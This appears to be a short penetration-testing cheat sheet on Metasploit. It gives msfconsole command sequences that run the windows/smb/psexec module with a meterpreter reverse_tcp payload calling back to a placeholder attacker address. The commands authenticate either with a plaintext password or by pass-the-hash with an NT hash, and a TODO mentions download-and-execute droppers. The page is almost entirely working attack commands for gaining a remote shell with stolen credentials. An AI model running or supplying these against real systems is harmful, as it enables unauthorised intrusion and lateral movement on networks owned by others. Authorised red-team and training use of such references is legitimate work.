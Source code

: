 # Metasploit

TODO: show the steps when switching payload to `windows/download_exec` when deploying custom droppers especially stageless payloads.

Authenticate via username and password.

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass <password>

msf exploit(windows/smb/psexec) > run
```

Authenticate via Pass The Hash

```
msf exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/psexec) > set lhost <attacker_IP>

msf exploit(windows/smb/psexec) > set lport <PORT>

msf exploit(windows/smb/psexec) > set rhosts <target_IP>

msf exploit(windows/smb/psexec) > set smbdomain <domain>

msf exploit(windows/smb/psexec) > set smbuser <username>

msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:<nt_hash>

msf exploit(windows/smb/psexec) > run
```

---
## References

- [SANS: Custom Payloads in Metasploit](https://www.sans.org/blog/custom-payloads-in-metasploit/)